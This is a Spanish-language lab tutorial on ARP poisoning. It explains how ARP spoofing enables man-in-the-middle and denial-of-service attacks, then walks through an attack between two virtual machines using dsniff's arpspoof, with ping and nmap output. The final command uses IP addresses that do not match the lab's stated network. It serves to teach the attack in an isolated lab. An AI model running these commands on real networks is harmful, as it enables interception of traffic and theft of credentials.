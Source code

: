 El ARP Poisoning, también conocido como ARP Spoofing, es un tipo de ataque en redes de computadoras que se lleva a cabo en la capa de enlace de datos (capa 2 del modelo OSI). Este ataque explota el protocolo ARP (Address Resolution Protocol), que es utilizado en redes IPv4 para mapear direcciones IP a direcciones MAC de hardware. A continuación, te explico en detalle cómo funciona este ataque y sus implicaciones:

Funcionamiento del Protocolo ARP
- ARP en Redes Normales: Cuando un dispositivo en una red local quiere comunicarse con otro dispositivo, necesita conocer su dirección MAC. Si solo conoce la dirección IP, utiliza ARP para resolver la dirección MAC. Envía una solicitud ARP a todos los dispositivos en la red (broadcast) preguntando "¿Quién tiene esta dirección IP? Envíame tu dirección MAC".
- Respuesta ARP: El dispositivo con la dirección IP solicitada responde con su dirección MAC, y la comunicación puede comenzar.

Mecánica del ARP Poisoning
- Envío de Respuestas ARP Falsificadas: En un ataque de ARP Poisoning, el atacante envía respuestas ARP no solicitadas a la víctima, a la puerta de enlace de la red, o a ambos. Estas respuestas contienen la dirección MAC del atacante en lugar de la dirección MAC real correspondiente a la dirección IP solicitada.
- Modificación de la Tabla ARP: Como resultado, la víctima y/o la puerta de enlace actualizan sus tablas ARP con la información falsa, asociando la dirección IP del dispositivo objetivo (por ejemplo, la puerta de enlace) con la dirección MAC del atacante.
- Intercepción del Tráfico: Con las tablas ARP modificadas, el tráfico que se supone debe ir al dispositivo objetivo es enviado al atacante. Esto permite al atacante interceptar, leer o modificar los datos antes de reenviarlos al destinatario original, si así lo decide.

Objetivos y Consecuencias
- Man-In-The-Middle (MITM): El atacante se coloca entre dos partes que creen estar comunicándose directamente entre sí. Puede espiar o alterar la comunicación.
- Denegación de Servicio (DoS): Si el atacante no reenvía los paquetes interceptados, puede interrumpir la comunicación, resultando en un ataque de DoS.
- Suplantación de Identidad y Ataques a la Privacidad: El atacante puede obtener acceso no autorizado a datos confidenciales, como credenciales de inicio de sesión y otra información personal.

----------------------------------------
Este laboratorio necesita una red nat que compartirán las máquinas virtuales.


Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red nat. IP 10.0.2.15
- Ubuntu 23.10 con configuración de la red: red nat. IP: 10.0.2.4

Comprobamos que la máquina virtual linux vea a la windows:
```
ping 10.0.2.15
PING 10.0.2.15 (10.0.2.15) 56(84) bytes of data.
64 bytes from 10.0.2.15: icmp_seq=1 ttl=128 time=0.942 ms
64 bytes from 10.0.2.15: icmp_seq=2 ttl=128 time=0.509 ms
64 bytes from 10.0.2.15: icmp_seq=3 ttl=128 time=0.995 ms
^C
--- 10.0.2.15 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2043ms
rtt min/avg/max/mdev = 0.509/0.815/0.995/0.217 ms
```


Comprobamos que la máquina virtual windows vea a la Linux:
```
C:\Windows\system32>ping 10.0.2.4
Haciendo ping a 10.0.2.4 con 32 bytes de datos:
Respuesta desde 10.0.2.4: bytes=32 tiempo<1m TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64
Respuesta desde 10.0.2.4: bytes=32 tiempo=1ms TTL=64

Estadísticas de ping para 10.0.2.4:
    Paquetes: enviados = 4, recibidos = 4, perdidos = 0
    (0% perdidos),
Tiempos aproximados de ida y vuelta en milisegundos:
    Mínimo = 0ms, Máximo = 1ms, Media = 0ms
```

En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.



En la máquina Linux instalamos dsniff y lanzamos el ataque unos segundos:
```
sudo apt-get install dsniff
sudo apt install nmap
sudo nmap --iflist
[sudo] contraseña para usuario: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 20:29 CET
************************INTERFACES************************
DEV     (SHORT)   IP/MASK       TYPE     UP MTU   MAC
lo      (lo)      127.0.0.1/8   loopback up 65536
lo      (lo)      ::1/128       loopback up 65536
enp0s3  (enp0s3)  10.0.2.4/24   ethernet up 1500  08:00:27:AB:BD:F3
docker0 (docker0) 172.17.0.1/16 ethernet up 1500  02:42:1B:03:99:67

**************************ROUTES**************************
DST/MASK       DEV     METRIC GATEWAY
10.0.2.0/24    enp0s3  100
172.17.0.0/16  docker0 0
169.254.0.0/16 enp0s3  1000
0.0.0.0/0      enp0s3  100    10.0.2.1
::1/128        lo      0
::1/128        lo      256
sudo arpspoof -i [interfazAtancante] -t [víctima] [puerta de enlace]
sudo arpspoof -i enp0s3 -t 10.10.10.5 10.10.10.1
```
![](capturas/arp-spoof-attack.png)
